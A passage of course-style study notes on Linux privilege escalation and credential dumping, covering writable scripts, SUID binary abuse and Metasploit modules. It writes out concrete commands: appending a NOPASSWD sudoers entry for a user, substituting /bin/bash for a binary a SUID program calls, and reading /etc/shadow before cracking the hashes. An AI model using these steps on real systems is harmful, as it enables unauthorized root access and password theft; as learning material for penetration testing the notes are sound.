+ Note this is only for the current log in, will not be able to see roots without being logged in as root 

Will now want to search the directory with `grep`
+ `grep -rnw /usr -e "/home/student/message` is an example that finds any occurrences of that path 
+ If a .sh is found, can use `ls -al PATH` to see permissions 
  + if it is, can append something like this: `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh` to give our user all permissions 
  + Can then do `sudo su` to become root 

### Exploiting SUID Binaries ###

+ In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations 
  + One of these access permissions is the `SUID` (Set Owner User ID) permission 
+ When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary 
+ `SUID` permissions are typically used to provide unprivileged users with the ability to run specific scripts of binaries with "root" permission. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script, they can us it to obtain an elevated session.
  + For example the `sudo` binary uses `SUID` to allow non privileged users to execute as root
+ This is the functionality that will be attempting to exploit in order to elevate our privileges, however, the success of out attack will depend on the following factors:
  + Owner of the SUID binary - Given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the "root" user or other privileged users 
  + Access permissions - We will require executable permissions in order to execute the SUID binary

Will use `ls -al` to see if a file has the permissions such it can be ruin with `SUID`
+ can see more details about the file with `file`
+ `strings` will give a list of strings being used 
  + might be able to see if it calls upon another binary 
    + if it does, can delete that binary and make it how we want

if we `cp /bin/bash FILE_NAME_SUID_FILE_CALLS`
  + It will give us a root shell
  + Essentially we are running a file with `SUID`, that file calls on a file that we changed, the changed file will run a bash shell as the root giving us root access

## Linux Credential Dumping ##

### Dumping Linux Password Hashes ###

+ Linux has multi-user support
  + Multiple can access the system simultaneously 
+ All of the information for all accounts on Linux is stored in the passwd file located in: `/etc/passwd`
+ Cannot view the passwords for the users in the passwd file because they are encrypted, and passed file is readable by any user on the system 
+ All the encrypted passwords for the users are stored in the shadow file, can be found in `/etc/shadow`
+ The shadow file can only be accessed and read by the <r>root</r>
  + Prevents other accounts on the system from accessing the hashed passwords 

#### Linux Password Hashes ####
+ The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash 
  + Helpful in determining the type of hashing algorithm that is being used and its strength 
  + Can determine his by looking at the number after the username encapsulated by the dollar symbol ($)
s


When given a command shell session, should use `/bin/bash -i` to start a shell
+ Can then background that session and start a meterpreter session with `sessions -u 1`

Once in as root, can dump the hashes with:
+ `cat /etc/shadow`
+ Or `use post/linux/gather/hashdump` in <r>msfconsole</r>

Can crack those passwords with `use auxiliary/analyze/crack_linux` in <r>msfconsole</r>
# Conclusion #

<style>
r { color: Red; font-weight: bold}
o { color: Orange; font-weight: bold }
g { color: LightGreen; font-weight: bold }
b { color: #04d9ff; font-weight: bold}
pu { color: #be03fc; font-weight: bold}
</style>